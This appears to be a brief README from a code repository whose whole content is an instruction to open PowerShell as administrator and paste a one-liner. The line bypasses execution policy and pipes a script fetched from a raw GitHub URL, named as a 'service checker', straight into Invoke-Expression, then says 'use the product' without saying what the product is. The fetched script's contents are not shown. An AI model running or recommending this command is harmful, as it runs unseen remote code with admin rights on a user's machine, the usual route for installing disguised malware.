 1) Run powershell as admin
2) paste this in powershell admin powershell ```powershell -Command "Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass; Invoke-Expression (Invoke-RestMethod 'https://raw.githubusercontent.com/Skiedlmao/SafeSSerfinal/main/servicechecker.ps1')"```
3) use the product
